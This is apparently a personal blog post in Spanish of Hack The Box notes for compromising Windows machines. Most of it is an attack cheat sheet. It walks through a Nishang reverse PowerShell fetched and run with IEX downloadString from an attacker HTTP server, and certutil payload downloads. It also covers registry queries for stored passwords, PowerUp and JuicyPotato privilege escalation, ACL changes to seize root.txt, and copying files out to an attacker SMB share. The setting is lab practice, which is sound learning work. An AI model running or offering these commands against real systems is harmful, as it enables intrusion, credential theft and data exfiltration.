```yaml
---
layout: post
title: "Apuntes Maquinas Windows"
subtitle: 'apuntes recopilados para cada una de las maquinas windows que voy haciendo'
date: 2020-08-12 12:00:00
author: "TheusZero"
header-img: "images/post/windows/windowsApuntes.png"
catalog: true
comments: true
tags:
  - Windows
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


## Links Ricolinos

[Optium-HackTheBox](https://www.youtube.com/watch?v=fIGvOGrdxyc&list=PLlb2ZjHtNkpiSbrOfeRASNsvpHD6bEWoA)
[]()

## PowerShell
[powershells para windows](https://github.com/samratashok/nishang)

#### Pasos para invocar una una powerShell Manual
> recordar usar nc -nlvp port

> nishang/shells/Invoke_PowerShellTCP.ps1 

> colocar esto al final del invoke powershell **Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 443**

> abrir un SimpleHTTPServer en el puerto 8000

> dentro de la maquina, escribir: ```start /b powershell IEX(New-Object Net.webClient).downloadString('http://MyIpAdrress:8000/Invoke_PowerShellTCP.ps1')```
>> esto ejecutara e interpretara el archivo ps1

ahora, cuando ya tenemos acceso con la powerShell debemos obtener un reconocimiento del sistema, debido a la utilizacion de la powershell no segura y de manera bruta podemos obtener una cantidad grande de *falsos positivos*, por eso mismo intentaremos jugar con comandos del sistema para asi poder acceder a una verdadera forma de escalar privilegios.

```Python
[Environment]::Is64BitsOperatingSystem
```

```Python
[Environment]::Is64BitsProcess
```
> si es falso, este proceso de shell es de 32bits, por lo que tenemos que migrar a mano a un proceso de 64 bits si o si debemos migrar

```start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://MyIpAdrress:8000/Invoke_PowerShellTCP.ps1')```
con esto logramos crear una powerShell que trabaje en 64bits, por lo que volvemos a lanzar un netcat para obtener la reverse shell otra vez

> preguntamos otra vez :
>> ```[Environment]::Is64BitsProcess```

una vez que es true podemos continuar y no van a darnos falsos positivos

## Privesec

#### obtencion de passwords
```Python
reg query HKLM /f  password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul |findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

#### winexe
ya cuando tenemos el tunnel hecho
```Python
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

#### netstat
recordar el exploit zzz para el samba
```Python
netstat -nat
```

#### windows suggester
[windows exploit suggester bacan](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

> python windows-exploit-suggester.py --update

> instalar python-xlrd con sudo apt-get install 

> python windows-exploit-suggester.py --database (archivo que se creo) --systeminfo systeminfo.txt (archivo que creamos)

**ir de arriba hacia abajo en los exploits que encontro**

[weseng](https://github.com/bitsadmin/wesng)

se copia todo el output en un archivo .txt y se ejecuta el comando o binario del wesng

#### ver permisos de ejecucion y como se ejecuta (tipo SUID)

```Python
PS C:\Users\Public\Desktop> $sh = New-Object -ComObject Wscript.Shell
PS C:\Users\Public\Desktop> $target = $sh.CreateShortcut('C:\Users\Public\Desktop\theprogram')
PS C:\Users\Public\Desktop> echo $target
```

#### whoami
```Python
whoami /priv
```

#### rottenPotato
SeImpersonatePrivilege token, which means that this machine is going to be vulnerable to the RottenPotato exploit
[RottenPotato](https://github.com/ohpe/juicy-potato/releases)

aplication:

[here!](https://codewithnoah.com/posts/htb-walkthrough-jeeves)

[hackthebox machine espanol](https://www.youtube.com/watch?v=wvWxXKKFifQ&feature=youtu.be)

#### powerSploit
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

powersploit tiene un modulo para el privesec llamado **PowerUp.ps1**

> mismo principio de la powershell, se coloca esta linea al final del documento
```Python
Invoke-AllChecks
```

luego:

```Python
IEX(New-Object Net.WebClient).downloadString('http://myIp:8000/PowerUp.ps1')
```

#### cacls (access control list)
permisos para cada usuario, donde F es Full privilegios

```Python
cacls Administrator
```

```Python
cacls root.txt /grant TheUserMY:F
Y (yes)
```

## subir archivos binarios y ejecturlos en la maquina

> abrir un SimpleHttpServer para el binario

> en la maquina escribir
>> ```certutil.exe -f -urlcache -split http://myIpAdress/theBinary.exe thebinary.exe```

## descargar archivos desde la maquina

desde mi maquina de atacante debo crear un recurso compartido

```Python
impacket-smbserver smbFolder $(pwd)
```

desde la maquina windows que esta siendo atacada usando una poweshell y usando una utilidad de la misma realizamos la sincronizacion con mi equipo

```Python
New-PSDrive -Name "SharedFolder" -PSProvider "FileSystem" -Root "\\MYIP\smbFolder"
```

```Python
copy text.txt SharedFolder:\text.txt
```

## samba and rpc cheatsheets

```Python
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
```

```Python
sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSWORD>

sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSOWRD> -g | grep Disk | cut -f 1 -d '|'
## LIST only the names of the shared Disk
```

```Python
rpcclient -U username ip
```

#### mount a smb folder in the host sistem
```Python
cd /mnt
mkdir smbMounted
cd smbMounted
mount -t cifs //IPAtacking/Folder /mnt/smbMounted -o username=null,password=null,domain=WORKGROUP,rw
```

## ssh

```Python
# SEND FILES THROUGH SSH
# ======================
## copy file from local over to remote server
scp -i <.ssh/key> <local/file> <user>@<host_name_or_ip>:<destination>
## using config
scp <local/file> <hostname>:<destination>
## copy file from remote server to local
scp -i <.ssh/key> <user>@<host_name_or_ip>:<file/to/copy> <local/destination>
## using config
scp <hostname>:<file/to/copy> <local/destination>
```